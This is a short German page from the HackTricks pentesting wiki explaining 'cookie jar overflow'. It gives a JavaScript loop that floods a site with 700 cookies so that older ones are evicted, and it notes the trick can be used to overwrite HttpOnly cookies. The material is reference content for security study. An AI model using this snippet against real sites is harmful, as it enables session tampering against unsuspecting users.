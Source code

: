 {{#include ../../banners/hacktricks-training.md}}

Die Browser haben ein **Limit für die Anzahl der Cookies**, die sie für eine Seite speichern können. Wenn du aus irgendeinem Grund **ein Cookie verschwinden lassen** musst, kannst du **das Cookie-Glas überlaufen**, da die ältesten zuerst gelöscht werden:
```javascript
// Set many cookies
for (let i = 0; i < 700; i++) {
document.cookie = `cookie${i}=${i}; Secure`
}

// Remove all cookies
for (let i = 0; i < 700; i++) {
document.cookie = `cookie${i}=${i};expires=Thu, 01 Jan 1970 00:00:01 GMT`
}
```
Beachten Sie, dass Cookies von Drittanbietern, die auf eine andere Domain verweisen, nicht überschrieben werden.

> [!CAUTION]
> Dieser Angriff kann auch verwendet werden, um **HttpOnly-Cookies zu überschreiben, da Sie sie löschen und dann mit dem gewünschten Wert zurücksetzen können**.
>
> Überprüfen Sie dies in [**diesem Beitrag mit einem Labor**](https://www.sjoerdlangkemper.nl/2020/05/27/overwriting-httponly-cookies-from-javascript-using-cookie-jar-overflow/).

{{#include ../../banners/hacktricks-training.md}}
